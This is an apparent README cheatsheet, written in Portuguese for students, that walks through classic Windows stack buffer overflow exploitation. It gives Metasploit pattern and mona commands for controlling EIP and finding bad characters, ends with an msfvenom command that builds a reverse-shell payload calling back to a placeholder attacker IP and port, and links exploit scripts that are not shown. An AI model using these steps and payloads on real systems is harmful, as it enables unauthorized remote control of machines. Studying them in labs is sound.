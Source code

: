 # Buffer Clássico | Cheatsheet

Esse material foi desenvolvido com a intenção de auxiliar os estudantes que se envolverem com o tema de Buffer Overflow Clássico.

---

Criando um padrão aleátorio de caracteres para a identificação da quantidade de caracteres que são necessários para a manipulação do EIP.

```
msf-pattern_create -l 550
```

Identificando a quantidade necessária para controlar o EIP baseado no padrão gerado acima.

```
msf-pattern_offset -q <EIP>
```

Encontrando uma instrução válida **JMP ESP** na aplicação utilizando o [mona](https://github.com/corelan/mona).

```
!mona jmp -r esp
```

Gerando *bytearray* para os testes dos caracteres que são inválidos para a aplicação.

```
!mona bytearray -cpb "\x00"
```

Comparando o endereço onde estão localizado os caracteres que foram enviados para aplicação com o binário do bytearray que foi gerado no comando acima.

```
!mona compare -f C:\monalogs\aplicacao\bytearray.bin -a <ENDEREÇO>
```

Gerando o shellcode para receber o acesso remoto na máquina.

```
msfvenom -p windows/shell_reverse_tcp -a x86 --platform windows -b "<badchars>" LHOST=<IP DO ATACANTE> LPORT=<PORTA DO ATACANTE> -f c
```
<br />

## Scripts

Scripts           | Link        
------------------|-------------
conecta.py        | [Clique aqui](scripts/conecta.py) 
fuzzing.py        | [Clique aqui](scripts/fuzzing.py)
poc.py            | [Clique aqui](scripts/poc.py)
findeip.py        | [Clique aqui](scripts/findeip.py)
eip.py            | [Clique aqui](scripts/eip.py)
badchars.py       | [Clique aqui](scripts/badchars.py)
exploit.py        | [Clique aqui](scripts/exploit.py)

